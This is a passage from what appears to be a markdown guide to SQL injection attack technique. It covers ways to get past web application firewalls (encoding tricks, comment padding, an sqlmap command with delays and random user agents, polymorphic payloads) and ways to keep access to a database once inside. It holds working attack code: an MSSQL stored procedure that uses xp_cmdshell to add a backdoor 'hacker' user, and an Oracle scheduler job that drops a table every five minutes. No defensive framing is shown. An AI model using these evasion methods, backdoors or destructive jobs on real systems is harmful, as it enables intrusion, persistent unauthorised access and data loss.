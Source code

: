 | **Obfuscation Method** | **Example** | **Database Compatibility** |  
|-------------------------|-------------|----------------------------|  
| Hex Encoding            | `0x416C6C6861636B` | MySQL, PostgreSQL       |  
| Base64 Encoding         | `ZWNobyAnSGVsbG8gV29ybGQhJw==` | All databases       |  
| Comment Padding         | `UNION/* */ SELECT` | All databases           |  

#### **2. Slow HTTP Requests**  
Attackers fragment payloads into delayed requests to avoid triggering rate-based WAF rules.  
- **Mechanism**: Introduce artificial delays between requests using tools like **SQLMap** or custom scripts.  
- **Example**:  
  ```bash  
  sqlmap -u "http://target.com/login.php" --delay 10 --random-agent  
  ```  
  This command injects payloads with a 10-second delay between requests and rotates user-agent headers.  

#### **3. Polymorphic Payloads**  
Dynamic payload generation ensures each attack instance is unique, evading signature-based detection.  
- **Techniques**:  
  - Randomize parameter order (e.g., `id=5&sort=ASC` → `sort=ASC&id=5`).  
  - Use alternative SQL syntax (e.g., `UNION ALL SELECT` vs. `UNION SELECT`).  
  - Encode payloads with varying encodings (hex → base64 → Unicode).  

---

### **Persistence Mechanisms**  
Attackers establish long-term access through database or system-level backdoors:  

#### **1. Stored Procedures/Triggers**  
- **Example (MSSQL)**:  
  ```sql  
  CREATE PROCEDURE dbo.Backdoor  
  AS  
  EXEC xp_cmdshell 'net user hacker Pass123$ /add';  
  ```  
  This procedure adds a new user when executed. Attackers can trigger it via SQLi or scheduled tasks.  

#### **2. Scheduled Jobs**  
- **Example (Oracle)**:  
  ```sql  
  DBMS_SCHEDULER.create_job(  
    job_name => 'malicious_job',  
    job_type => 'PLSQL_BLOCK',  
    job_action => 'EXECUTE IMMEDIATE ''DROP TABLE secrets'';',  
    repeat_interval => 'FREQ=MINUTELY; INTERVAL=5'  
  );  
  ```  
  This job deletes a table every 5 minutes.  
